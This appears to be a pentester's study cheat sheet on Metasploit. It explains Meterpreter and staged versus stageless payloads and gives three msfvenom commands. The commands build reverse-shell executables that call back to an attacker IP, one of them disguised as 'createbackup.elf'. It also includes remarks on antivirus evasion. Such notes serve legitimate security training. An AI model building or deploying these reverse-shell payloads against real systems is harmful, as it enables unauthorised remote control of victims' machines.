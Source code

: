 # Metasploit

### Meterpreter
Meterpreter is a payload that uses in-memory DLL injection to stealthfully establish a communication channel between an attack box and a target

Can use `shell` command to drop in to a system shell


### MSFvenom
Crafting payloads with msfvenom: https://pentest.ws/tools/venom-builder

**Staged payload**  
 When run using an exploit module in Metasploit, this payload will send a small stage that will be executed on the target and then call back to the attack box to download the remainder of the payload over the network, then executes the shellcode to establish a reverse shell.

**Stageless payload**
This payload will be sent in its entirety across a network connection without a stage. Good for low bandwith and for Evasion.

**Naming convention:**
First is staged. Second is stageless
`windows/meterpreter/reverse_tcp` and `windows/meterpreter_reverse_tcp`    

**Building Stageless Payload** 
Example:  
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf`

`.exe` for windows. Would get caught in AV since signature is known

**Meterpreter Payload**
`msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe`

**Netcat Payload**
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.0.32 LPORT=4444 -f exe -o reverse.exe`